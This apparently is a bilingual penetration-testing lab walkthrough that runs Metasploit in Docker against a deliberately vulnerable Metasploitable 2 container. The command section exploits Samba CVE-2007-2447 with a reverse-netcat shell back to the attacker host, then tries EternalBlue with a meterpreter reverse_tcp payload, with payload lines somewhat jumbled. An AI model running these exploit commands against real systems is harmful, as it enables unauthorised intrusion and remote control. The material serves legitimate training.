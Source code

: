 # [Topic]系統攻擊
  * Docker Image- Metasploit
  * 使用Docker與Metasploit，針對脆弱的Ubuntu服務進行模擬攻擊，並取得控制權限。

# [Abstract]緣起摘要
  * Metasploit是一款強大的滲透測試工具，可用於發現漏洞並進行攻擊模擬。
  * 透過Docker，我們可以快速部署Metasploit，而無需在本機安裝大量依賴。

# [Relational]相關資訊
  * 目標：Metasploitable 2（內含多個已知漏洞的Linux測試環境）
  * 攻擊者：Metasploit（使用Docker來執行）
  * 攻擊方式：利用Samba漏洞取得遠端shell權限（CVE-2007-2447）

# [Procedure]步驟紀錄
  * [連結名稱](https://google.com "Metaspoilt with Docker")

# [Suggestion]結論建議
  * 透過Docker快速部署Metasploit環境，並利用Samba漏洞取得遠端控制權限。滲透測試的基本流程，包括：偵查、漏洞分析與攻擊。
  * 安全防護：避免使用舊版的服務，並定期更新系統。
  * 防禦措施：設定防火牆規則，阻擋來自外部的445連線，並監控異常行為。
  * 進一步學習：嘗試使用Metasploit測試其他漏洞，提升滲透測試技能。


# 1. Preparation
## Use Docker to run Metasploit

### Check Docker status
`docker --version`

# 2. Build attack target
### Download Metasploit2 
`docker pull tleemcjr/metasploitable2`

### Run Metasploit2 in Docker
`docker run -d --name vulnerable -p 445:445 -p 21:21 -p 22:22 -p 80:80 tleemcjr/metasploitable2`
docker run -d --name vulnerable -p 445:445 -p 21:21 -p 22:22 -p 80:80 tleemcjr/metasploitable2 bash -c "/bin/services.sh && tail -f /dev/null"

docker inspect -f '{{range.NetworkSettings.Networks}}{{.IPAddress}}{{end}}' vulnerable  # get Target IP


- -p 445:445：開放 SMB（檔案共享漏洞）
- -p 21:21：開放 FTP（容易被暴力破解）
- -p 22:22：開放 SSH（可能存在弱密碼）
- -p 80:80：開放 Web 服務（可能存在漏洞）

### Check Metasploit2 in Docker status
`docker ps`
docker rm -f vulnerable  # if docker exist, delete it.
docker start vulnerable


# 3. Run attacker
### Run Metasploit in Docker
`docker run --rm -it metasploitframework/metasploit-framework  # delete when exit docker`

`docker run -it --name metasploit metasploitframework/metasploit-framework  # keep docker container`
`docker start -ai metasploit  # run docker with next time`
`help  # check metasploit status`

# 4. Scan target system
use exploit/multi/samba/usermap_script


msf6 > use auxiliary/scanner/smb/smb_version
msf6 auxiliary(scanner/smb/smb_version) > set RHOSTS 172.17.0.2
msf6 auxiliary(scanner/smb/smb_version) > run

## exploit
use exploit/multi/samba/usermap_script
set RHOSTS 172.17.0.2
check
set PAYLOAD cmd/unix/reverse_netcat
set LHOST 172.17.0.3
exploit



msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 172.17.0.2
msf6 exploit(windows/smb/ms17_010_eternalblue) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
set PAYLOAD cmd/unix/reverse_netcat

msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 172.17.0.3
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit




